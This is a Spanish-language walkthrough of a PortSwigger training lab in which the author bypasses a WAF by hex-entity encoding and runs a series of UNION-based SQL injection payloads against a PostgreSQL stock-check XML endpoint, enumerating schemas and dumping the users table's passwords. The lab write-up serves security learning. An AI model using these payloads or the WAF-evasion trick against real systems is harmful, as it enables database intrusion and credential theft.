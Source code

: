 ```yaml
---
title: "SQL injection with filter bypass via XML encoding"
description: "Laboratorio de Portswigger sobre SQLI"
date: 2025-02-12 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection with filter bypass via XML encoding
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en su función de `verificación` de `stock`. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que se puede usar un `ataque UNION` para obtener `datos` de otras `tablas`. La `base` de `datos` contiene una `tabla` llamada `users`, que almacena los `nombres` de `usuario` y `contraseñas` de los `usuarios registrados`. Para resolver el laboratorio, debemos realizar un `ataque` de `inyección SQL` para `obtener` las `credenciales` del usuario `administrador` y luego `iniciar sesión` en su cuenta

---

## Guía de SQLI

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SQLI` [https://justice-reaper.github.io/posts/SQLI/](https://justice-reaper.github.io/posts/SQLI/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-18/image_1.png)

Si hacemos click en `View details` vemos que hay un botón de `Check stock`

![](/assets/img/SQLI-Lab-18/image_2.png)

Si pinchamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos una estructura en `XML`

![](/assets/img/SQLI-Lab-18/image_3.png)

Si `enviamos` la `petición` recibiremos en `número` de `unidades` disponibles

![](/assets/img/SQLI-Lab-18/image_4.png)

Con el simple hecho de poner una `'` en alguna de los campos ya nos lo `detecta` como `ataque`, esto es debido a un `WAF`

![](/assets/img/SQLI-Lab-18/image_5.png)

Si el `formato no fuera XML` y fuera `texto plano` podríamos usar el `Decoder` para `encodear` el `payload` en `hexadecimal`, sin embargo, en este caso al `enviarse los datos` en una `estructura XML` podemos usar `herramientas` como `Hackvertor` para `ofuscar` nuestro `payload` y `evitar` que sea `detectado` por el `WAF`. Para encodear nuestro payload debemos pulsar `click derecho > Extensions > Hackvertor > Encode > hex_entities`

![](/assets/img/SQLI-Lab-18/image_6.png)

Vemos que si ponemos una `'` nos devuelve `0 unidades`

![](/assets/img/SQLI-Lab-18/image_7.png)

He probado ambos campos pero solamente es `inyectable` el campo `storeId`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select null<@/hex_entities>
    </storeId>
</stockCheck>
```

Si `enviamos` la `petición` vemos `null` en la `respuesta`

![](/assets/img/SQLI-Lab-18/image_8.png)

`Listamos` la `version` y la `base` de `datos`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select version()<@/hex_entities>
    </storeId>
</stockCheck>
```

Vemos que estamos ante un `PostgreSQL`

![](/assets/img/SQLI-Lab-18/image_9.png)

`Listamos` los `nombres` de las `bases` de `datos`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select datname from pg_database<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_10.png)

`Listamos` la `base de datos actual`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select current_database()<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_11.png)

`Listamos` los `esquemas` para la `base de datos en uso`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select string_agg(schema_name,', ') from information_schema.schemata<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_12.png)

Listamos `tablas` de la `base de datos public`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select string_agg(table_name,', ') from information_schema.tables where table_schema='public'<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_13.png)

Listamos `columnas` de la `tabla users`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select string_agg(column_name,', ') from information_schema.columns where table_name='users'<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_14.png)

`Listamos` los `usuarios` y `contraseñas` de la tabla `users`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select username || ' : ' || password from users<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_15.png)

``Accedemos`` al `panel administrativo`

![](/assets/img/SQLI-Lab-18/image_16.png)

